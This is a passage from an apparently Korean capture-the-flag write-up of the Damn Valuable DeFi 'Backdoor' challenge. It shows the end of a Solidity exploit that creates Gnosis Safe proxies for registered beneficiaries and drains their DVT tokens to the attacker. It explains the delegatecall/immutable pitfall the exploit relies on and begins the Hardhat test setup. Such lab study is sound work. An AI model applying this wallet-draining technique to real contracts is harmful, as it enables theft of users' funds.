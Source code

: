 ```solidity
            address(0), // fallbackHandler 는 없어야하므로 0
            address(0), // 0은 ETH
            uint256(0), // 지불 금액
            address(0) // 지불 받을 주소
            );
            GnosisSafeProxy proxy = factory.createProxyWithCallback(masterCopy, initializer, 11, WalletRegistry);
            token.transferFrom(address(proxy),address(this),10 ether);
        }

        token.transfer(attacker,40 ether);
    }
    
}
```

DelegateCall을 사용할 때 (Proxy 패턴)일 때 유의해야 할 점이 있다.

[https://stackoverflow.com/questions/70971068/issues-using-a-delegatecall-proxy-contract-with-solidity-and-using-variables-i](https://stackoverflow.com/questions/70971068/issues-using-a-delegatecall-proxy-contract-with-solidity-and-using-variables-i) 에서 알 수 있듯이 프록시(storage 컨트랙트)에서 로직 컨트랙트의 변수를 읽고 사용할 수 있으려면 immutable이나 constant로 선언해야 한다. 

initializer는 setup 함수를 호출하는 것이므로 setup 함수의 delegatecall 옵션에서 이 컨트랙트의 주소를 인자로 토큰의 approve 함수를 호출하게 하여 이 컨트랙트에서 DVT 토큰을 가져올 수 있게 하였다. 이 때 token을 immutable로 선언하지 않으면 delegatecall 시에 token에 저장된 값이 없게 되므로 immutable로 선언해주어야 한다.

```tsx
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Backdoor', function () {
    let deployer, users, attacker;

    const AMOUNT_TOKENS_DISTRIBUTED = ethers.utils.parseEther('40');

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, alice, bob, charlie, david, attacker] = await ethers.getSigners();
        users = [alice.address, bob.address, charlie.address, david.address]

        // Deploy Gnosis Safe master copy and factory contracts
        this.masterCopy = await (await ethers.getContractFactory('GnosisSafe', deployer)).deploy();
        this.walletFactory = await (await ethers.getContractFactory('GnosisSafeProxyFactory', deployer)).deploy();
        this.token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        
        // Deploy the registry
        this.walletRegistry = await (await ethers.getContractFactory('WalletRegistry', deployer)).deploy(
            this.masterCopy.address,
            this.walletFactory.address,
            this.token.address,
            users
        );

        // Users are registered as beneficiaries
        for (let i = 0; i < users.length; i++) {
            expect(
                await this.walletRegistry.beneficiaries(users[i])
            ).to.be.true;            
        }

        // Transfer tokens to be distributed to the registry
```